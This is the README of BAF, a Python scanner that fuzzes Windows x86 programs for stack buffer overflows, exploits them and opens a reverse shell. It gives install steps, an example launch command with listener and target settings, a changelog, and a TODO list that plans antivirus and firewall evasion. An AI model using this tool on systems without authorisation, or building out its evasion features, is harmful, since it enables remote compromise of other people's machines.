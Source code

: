 # **BAF**

x86 Windows Stack-Based Buffer Overflow scanner in Python.

## Description

BAF is a tool used to scan Winx86 applications for Buffer Overflow Vulnerabilities. It's able to fuzz and exploit vulnerable applications and create a reverse shell.

## Getting Started

### __Warning__
**Use BAF for *educational proposes* only! The contributors *aren't responsible* for the *damage* made by this tool!**

### Installation
Python version 3.0 - 3.10
```
git clone https://github.com/TralseDev/BAF.git
```

### Executing program
```
python3 main.py
```

### Examples:

```
python3 main.py --lhost 127.0.0.1 --lport 1337 --rhost 127.0.0.1 --rport 2337 --prefix="OVERFLOW_COMMAND" --timeout=5 --little-endian
```

![Example video](https://github.com/TralseDev/BAF/blob/main/examples/example.GIF)

## Help

```
python3 main.py -h
```

## Authors

Tralse

## Version History

* 1.2 (14.10.2021)
    * More fixes:
        * Updated logger.py/logging_console() description
        * msfvenom port issues
    * More functions:
        * Updated logger.py/init()
        * Created `--allow-overwrite` flag
        * Created `--no-logging` flag
        * Created `--bypass-logs` flag
        * Updated flags:
            - `--escapeFuzz` -> `--escape-fuzz`
            - `--escapeBadCharDetection` -> `--escape-bcd`
        * Log scans and read them when rescanning binaries to save time
* 1.1 (13.10.2021)
    * Stable version fix:
        * Netcat port issues
        * Banner typo
        * Changed `--escapeFuzz` prefix format (from `lenOfOverflow,offset` to `offset`)
        * Multiple prefix scan (Beta)
    * More functions:
        * Write scan output into file (`-o` flag)
        * Updated logger.py/init() function
* 1.0 (12.10.2021)
    * Stable version
* 0.0
    * Beta phase

## License

This project is licensed under the GNU General Public License v3.0 (GNU GPLv3 License)

## TODOs
- offline scanner + `-r`,`--remote` / `-i`,`--internal` flags (standart is `-r`)
- fuzz max length of chars needed to trigger BOF
- allow to choose reverse shell
- multi-threading
- allow to remove bad char from list
- allow to add multiple chars once
- automatic bad char detection using screen shot!
- add ofuscation and other techniques to bypass AV / Firewall
- automatic binary debug to save time and be more precise
- allow to use proxy